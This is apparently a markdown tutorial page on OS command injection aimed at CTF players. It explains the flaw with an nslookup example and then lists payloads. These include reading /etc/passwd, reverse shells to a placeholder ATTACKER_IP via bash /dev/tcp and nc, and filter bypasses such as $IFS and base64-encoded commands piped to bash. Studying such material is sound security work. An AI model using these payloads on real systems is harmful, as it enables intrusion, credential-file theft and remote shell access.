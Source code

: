 # Command Injection

Command injection (also known as OS command injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## How it Occurs

Command injection vulnerabilities typically arise when an application passes unsanitized user input to a system shell. The user-supplied input can be crafted to include shell metacharacters, which the shell then interprets as part of a command.

### Example

Consider a web application that allows users to look up the IP address of a domain name:
`https://insecure-website.com/lookup?host=example.com`

The application might use the `nslookup` command to perform the lookup:
`nslookup example.com`

If the application is vulnerable, an attacker could provide the following input:
`example.com; whoami`

The application would then execute the following command:
`nslookup example.com; whoami`

This would cause the application to perform the DNS lookup and then execute the `whoami` command, revealing the user the application is running as.

## Common Payloads

Here are some common payloads for command injection, often useful in CTF challenges:

*   **Listing files:**
    *   `ls -la`
    *   `dir` (Windows)
*   **Reading files:**
    *   `cat /etc/passwd`
    *   `type C:\Windows\win.ini` (Windows)
*   **Finding flags:**
    *   `find / -name "flag*"`
    *   `grep -r "flag" /`
*   **Reverse Shells:**
    *   `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`
    *   `nc -e /bin/bash ATTACKER_IP PORT`

## Bypassing Filters

Sometimes, applications will filter out certain characters or keywords. Here are some ways to bypass common filters:

*   **Using command separators:**
    *   `;` (semicolon): Executes commands sequentially.
    *   `&&` (and): Executes the second command only if the first succeeds.
    *   `||` (or): Executes the second command only if the first fails.
    *   `&` (ampersand): Executes the command in the background.
    *   `|` (pipe): Pipes the output of the first command to the input of the second.
*   **Using different characters:**
    *   `$IFS` can be used as a space replacement in some shells (e.g., `cat$IFS/etc/passwd`).
    *   Using base64 encoding to hide payloads: `echo "bHMgLWxh" | base64 -d | bash`
*   **Using different commands:**
    *   If `cat` is blocked, try `more`, `less`, `head`, `tail`, `grep`, `sed`, `awk`.
    *   If `nc` is blocked, try `/dev/tcp`, `curl`, `wget`.

## Cheatsheet
https://hackersonlineclub.com/command-injection-cheatsheet/
